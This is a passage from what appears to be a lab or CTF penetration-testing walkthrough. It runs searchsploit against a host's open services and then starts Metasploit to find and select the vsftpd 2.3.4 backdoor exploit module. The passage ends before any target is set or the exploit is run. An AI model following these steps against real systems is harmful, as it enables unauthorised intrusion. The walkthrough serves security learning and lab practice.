 
```bash
$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                    |  Path
                                                                  | (/usr/share/exploitdb/)
------------------------------------------------------------------ ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            | exploits/unix/remote/17491.rb
------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result

$ searchsploit OpenSSH 4.7p1
Exploits: No Result
Shellcodes: No Result

$ searchsploit Samba smbd 3.X
Exploits: No Result
Shellcodes: No Result

$ searchsploit distccd v1
Exploits: No Result
Shellcodes: No Result

```
Using searchsploit on each of the above open services produces one promising lead. An exploit for the vsftpd 2.3.4 service. So this should be our next step.

### 6. Exploiting Vsftpd 2.3.4

Searchsploit indicated that there is a known exploit for this exact version of vsFTPd. So we will try to use metasploit to launch the exploit and get access to the server. So were going to start msf console and step through the full process.

```bash
$ msfconsole
```

```bash
msf5 > search vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

Next we need to tell msf that we want to use this exploit.

```bash
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
